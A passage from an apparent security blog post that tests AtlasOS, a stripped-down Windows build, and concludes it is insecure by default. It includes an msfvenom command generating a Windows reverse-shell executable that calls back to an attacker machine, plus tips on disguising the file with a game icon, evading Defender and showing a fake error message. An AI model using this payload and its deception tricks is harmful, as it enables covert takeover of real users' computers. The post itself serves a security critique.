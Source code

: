 Looks very different but that's not why we're here... let's try stuff:

[![10](/assets/blog/atlas-2.0/10.png)](/assets/blog/atlas-2.0/10.png)

.... I don't know what I expected really.

The code used:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<Kali Box IP> LPORT=1337 -f exe > test-x64.exe
```

Not rocket salad. No alerts. No Warnings.

🤦‍♂️

Now remember, on the tweetstorm I used [PowerStager](https://github.com/z0noxz/powerstager) to disguise my downloaded .exe as a CS:GO icon which would fool people if they are unfamiliar.

Additionally Windows Defender would have stopped you from downloading it in the first place (at least till I worked a little harder on it and bypassed defender 😈).

It is also entirely possible to pop up an error window so when you the download it alerts saying 'FILE CORRUPTED, please redownload and try again' as an error, all while the reverse shell connects to hacker machine and boom, you're in and undetected still.

# Takeaways

So AtlasOS, yeh they made improvements and made it look a little better, BUT it's still insecure, almost by default.

Bypassing the Windows 11 TPM and Security features purely to get AtlasOS installed on Windows 11, is a big no no. Security is important and the average user is not going to notice a hundred megs in the background doing intelligent file scanning and Real Time Protection of the Operating System.
